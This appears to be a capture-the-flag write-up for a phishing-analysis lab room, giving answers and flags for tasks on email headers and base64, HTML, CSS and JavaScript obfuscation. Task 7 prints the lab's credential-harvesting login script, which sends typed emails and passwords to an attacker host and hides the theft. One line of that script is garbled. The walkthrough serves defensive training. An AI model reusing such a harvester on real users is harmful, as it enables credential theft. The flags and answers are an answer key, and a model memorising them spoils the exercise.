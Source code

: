 > # ParrotPost: Phishing Analysis

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 3 - Email Headers](#task-3---email-headers)
    - [Task 4 - Email Attachment Analysis](#task-4---email-attachment-analysis)
    - [Task 5 - HTML Obfuscation](#task-5---html-obfuscation)
    - [Task 6 - CSS Obfuscation](#task-6---css-obfuscation)
    - [Task 7 - JavaScript Obfuscation](#task-7---javascript-obfuscation)
    - [Task 8 - Putting It All Together](#task-8---putting-it-all-together)

<!-- /TOC -->

## Task 3 - Email Headers
1. According to the IP address, what country is the sending email server associated with?<br>
    Submit `109.205.120.0` to [ip2location](https://www.ip2location.com/demo/109.205.120.0)
    ![](images/1.png)<br>

    **Answer:** Latvia

1. If Paul replies to this email, which email address will his reply be sent to?<br>
    In `Other Headers` section, there is a filed named `reply-to` displayed the email address if Paul replies to this email.<br>
    ![](images/2.png)<br>
    **Answer:** no-reply@postparr0t.thm

1. What is the value of the custom header in the email?<br>
    ![](images/3.png)<br>
    **Answer:** THM{y0u_f0und_7h3_h34d3r}

## Task 4 - Email Attachment Analysis
1. What encoding scheme is used to obfuscate the web page contents?<br>
    From the description, it is base64.<br>
    **Answer:** base64

1. What is the built-in JavaScript function used to decode the web page before writing it to the page?<br>
    **Answer:** atob()

1. After the initial base64 decoding, what is the value of the leftover base64 encoded comment?<br> 
    In the decoded string, there is another base64 string.<br>
    ![](images/4.png)<br>
    **Answer:** THM{d0ubl3_3nc0d3d}

## Task 5 - HTML Obfuscation
1. After decoding the HTML Entity characters, what is the text inside of the <h1> tag?<br>
    ![](images/5.png)<br>
    **Answer:** ParrotPost Secure Webmail Login

## Task 6 - CSS Obfuscation
1. What is the reverse of CSS Minify?<br>
    >  The CSS has also gone through a Minifier to remove unnecessary whitespace, comments, and other characters that are not needed for the browser to interpret and display the styles correctly. If we wanted to understand the stylesheet more, we could copy and paste it into a CSS Beautify tool to make it more readable. 
    [https://www.cleancss.com/css-beautify/](https://www.cleancss.com/css-beautify/)<br>
    **Answer:** CSS Beautify

## Task 7 - JavaScript Obfuscation
1. What is the URL that receives the login request when the login form is submitted?<br>
    [https://beautifier.io/](https://beautifier.io/)<br>
    Paste the code in `<script>...</script>` to the above link.<br>
    ```js
    const form = document.getElementById("login-form");
    const loginButton = document.getElementById("login-button");
    let errorMessage = null;
    form.addEventListener("submit", (event) => {
        /*prevent the form from submitting normally*/
        event.preventDefault(); /*get the username and password input values and set them to variables*/
        const email = document.getElementById("email").value;
        const password = document.getElementById("password").value; /*create a new HTTP request object for our evil server*/
        const xhr = new XMLHttpRequest(); /*encode the email and password using encodeURIComponent*/
        const encodedEmail = encodeURIComponent(email);
        const encodedPassword = encodeURIComponent(password); /*add the encoded email and password as query parameters in the GET request*/
        const url = `http://evilparrot.thm:8080/cred-capture.php?email=${encodedEmail}&password=${encodedPassword}`;
        xhr.open("GET", url, true); /*send the GET request to the evil server*/
        xhr.send();
        if (errorMessage) {
            errorMessage.innerHTML = "Sorry, there was an error processing your request. Please try again later.";
        } else {
            errorMessage = document.createElement("div");
            errorMessage.innerHTML = "Sorry, there was an error processing your request. Please try again later.";
            errorMessage.style.color = "red";
            3.2 .1 = "0";
            form.insertBefore(errorMessage, loginButton.nextSibling);
        }
    }); /*redirect to the REAL PostParrot website after sending, so the victim doesn't get suspicious! //window.location.href = "https://www.postparrot.thm";*/
    ```
    **Answer:** http://evilparrot.thm:8080/cred-capture.php

1. What is the JavaScript property that can redirect the browser to a new URL?<br>
    **Answer:** window.location.href

## Task 8 - Putting It All Together
1. What is the flag you receive after sending fake credentials to the /cred-capture.php endpoint?<br>
    Follow steps on the description.<br>
    ![](images/6.png)<br>
    **Answer:** THM{c4p7ur3d_y0ur_cr3d5}

1. What is the path on the web server hosting the log of captured credentials?<br>
    **Answer:** /creds.txt

1. Based on the log, what is Chris Smith's password?<br>
    Access this link on browser, you will see Chris Smith's password.<br>
    **Answer:** FlyL1ke!A~Bird
